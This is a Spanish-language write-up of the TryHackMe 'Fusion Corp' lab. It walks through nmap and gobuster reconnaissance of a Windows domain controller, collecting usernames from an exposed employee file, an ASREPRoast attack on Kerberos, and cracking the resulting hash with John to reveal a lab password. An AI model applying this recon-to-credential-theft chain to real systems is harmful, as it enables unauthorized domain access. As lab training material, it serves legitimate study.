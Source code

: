 ## TryHackMe  <> Fusion Corp

![image](https://github.com/Esevka/CTF/assets/139042999/f7bc6056-a728-4c36-a28e-2e1afd730143)

Enlace Maquina: https://tryhackme.com/room/fusioncorp

Enunciado : 

  - Segun el Enunciado se ha parcheado todo lo informado anteriormente y podemos volver a realizar las pruebas.
  - Conseguir 3 Flags
---
---

## Escaneo de puertos NMAP

-Buscamos puertos abiertos en en la maquina victima.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# nmap -p- -open -sS --min-rate 5000 -n -Pn -vvv 10.10.183.217 -oG open_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 08:16 CEST
    
    PORT      STATE SERVICE          REASON
    53/tcp    open  domain           syn-ack ttl 127
    80/tcp    open  http             syn-ack ttl 127
    88/tcp    open  kerberos-sec     syn-ack ttl 127
    135/tcp   open  msrpc            syn-ack ttl 127
    139/tcp   open  netbios-ssn      syn-ack ttl 127
    389/tcp   open  ldap             syn-ack ttl 127
    445/tcp   open  microsoft-ds     syn-ack ttl 127
    464/tcp   open  kpasswd5         syn-ack ttl 127
    593/tcp   open  http-rpc-epmap   syn-ack ttl 127
    636/tcp   open  ldapssl          syn-ack ttl 127
    3268/tcp  open  globalcatLDAP    syn-ack ttl 127
    3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
    3389/tcp  open  ms-wbt-server    syn-ack ttl 127
    5985/tcp  open  wsman            syn-ack ttl 127
    9389/tcp  open  adws             syn-ack ttl 127
    49666/tcp open  unknown          syn-ack ttl 127
    49668/tcp open  unknown          syn-ack ttl 127
    49669/tcp open  unknown          syn-ack ttl 127
    49670/tcp open  unknown          syn-ack ttl 127
    49673/tcp open  unknown          syn-ack ttl 127
    49689/tcp open  unknown          syn-ack ttl 127
    49700/tcp open  unknown          syn-ack ttl 127

-Captura exportado en formato grepable,por lo que vamos a extraer los puertos para lanzarles unos scripts basicos de reconocimiento.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# list_port open_ports 
    
    [+]Puertos Disponibles --> (Copiados en el Clipboard)
    
    53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49669,49670,49673,49689,49700

Ya tenemos los puertos copiado en el Clipboard, un script simple pero de gran ayuda. Script-->  https://github.com/Esevka/CTF/tree/main/Bash

-Lanzamos scripts basicos de reconocimiento sobre los puertos abiertos.

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49669,49670,49673,49689,49700 -sCV -n -Pn 10.10.183.217 -oN info_ports
    Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 08:18 CEST
    Nmap scan report for 10.10.183.217
    Host is up (0.063s latency).
    
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    
    80/tcp    open  http          Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: eBusiness Bootstrap Template
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 06:18:39Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fusion.corp0., Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=Fusion-DC.fusion.corp
    | Not valid before: 2023-10-13T06:12:01
    |_Not valid after:  2024-04-13T06:12:01
    | rdp-ntlm-info: 
    |   Target_Name: FUSION
    |   NetBIOS_Domain_Name: FUSION
    |   NetBIOS_Computer_Name: FUSION-DC
    |   DNS_Domain_Name: fusion.corp
    |   DNS_Computer_Name: Fusion-DC.fusion.corp
    |   Product_Version: 10.0.17763
    |_  System_Time: 2023-10-14T06:19:29+00:00
    |_ssl-date: 2023-10-14T06:20:08+00:00; 0s from scanner time.
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    9389/tcp  open  mc-nmf        .NET Message Framing
    49666/tcp open  msrpc         Microsoft Windows RPC
    49668/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49673/tcp open  msrpc         Microsoft Windows RPC
    49689/tcp open  msrpc         Microsoft Windows RPC
    49700/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: FUSION-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

## Analizamos la informacion obtenida sobre los puertos

--Puerto 80 (HTTP)

  - Despues de analizar la web y ver su codigo no encontramos nada, vamos a ver si encontramos directorios con gobuster.
  
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
        └─# gobuster dir -u http://10.10.183.217 -w /usr/share/wordlists/dirb/common.txt 
        ===============================================================
        Gobuster v3.6
        by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
        ===============================================================
        
        /backup               (Status: 301) [Size: 151] [--> http://10.10.183.217/backup/]
        /css                  (Status: 301) [Size: 148] [--> http://10.10.183.217/css/]
        /img                  (Status: 301) [Size: 148] [--> http://10.10.183.217/img/]
        /index.html           (Status: 200) [Size: 53888]
        /js                   (Status: 301) [Size: 147] [--> http://10.10.183.217/js/]
        /lib                  (Status: 301) [Size: 148] [--> http://10.10.183.217/lib/]
  
    - El directorio backup salta a la vista que es el primero en revisar, nos descargamos employees.ods a nuestra maquina.
      
      ![image](https://github.com/Esevka/CTF/assets/139042999/adc5b939-c80a-4023-8c73-df142db019db)

      ![image](https://github.com/Esevka/CTF/assets/139042999/51ba66dd-6231-4d32-9faa-e87e0e851bc0)

    - Si volvemos atras en la web encontramos una serie de personajes los cuales aparecen en la lista, por lo que parece ser que tenemos nombres de usuarios de empleados de la empresa incluso sabemos el  cargo que ejercen dentro de ella.

      ![image](https://github.com/Esevka/CTF/assets/139042999/bcc7641c-5073-498d-a392-8416c5d5a5a2)

--Puerto 88 (KERBEROS)

  Info de gran ayuda: [+]https://www.tarlogic.com/es/blog/como-funciona-kerberos/ [+]https://www.tarlogic.com/es/blog/como-atacar-kerberos/

  - Tenemos un listado de usuarios,por lo que vamos a probar con un ataque a kerberos llamado ASREPRoast(se basa en encontrar usuarios que no requieren pre-autenticación de Kerberos)
  
    ![image](https://github.com/Esevka/CTF/assets/139042999/97787c44-b781-42b3-a475-78993c8bd668)

        Como Funciona la Preautenticacion
        La preautenticación demuestra que el usuario conoce su contraseña antes de recibir el ticket de autenticación.
        Timestamp en el ticket garantiza que el ticket sea válido solo durante un período de tiempo limitado y protege contra ataques de repetición. 
    
    Montamos todo:
    
    1)Creamos una lista con los usuarios que hemos encontrado.
    
    2)Editamos nuestro fichero /etc/hosts

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# cat /etc/hosts
        10.10.122.116   fusion.corp
        [IP Maquina]    [Dominio resolver]
    
    3)Montamos el comando y obtenemos Kerberos HASH (RC4) del usuario lparker.

      ![image](https://github.com/Esevka/CTF/assets/139042999/858ac63d-ad88-45ca-97ba-8c5c99ba2813)

    4)Intentamos crakear el hash del usuario lparker con john y asi obtener unas credenciales validad para intenter conectarnos por los demas servicios expuestos.

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# john hashuser_NP --wordlist=/usr/share/wordlists/rockyou.txt 
        Using default input encoding: UTF-8
        Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
        Will run 3 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        !!abbylvzsvs2k6! ($krb5asrep$lparker@FUSION.CORP)     
        1g 0:00:00:02 DONE (2023-10-14 09:50) 0.4032g/s 991896p/s 991896c/s 991896C/s !ebabaloh..๙า๘ฌน++๘
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed.

      Conseguimos credenciales lparker:!!abbylvzsvs2k6!

    

  
        
        
              
    
    



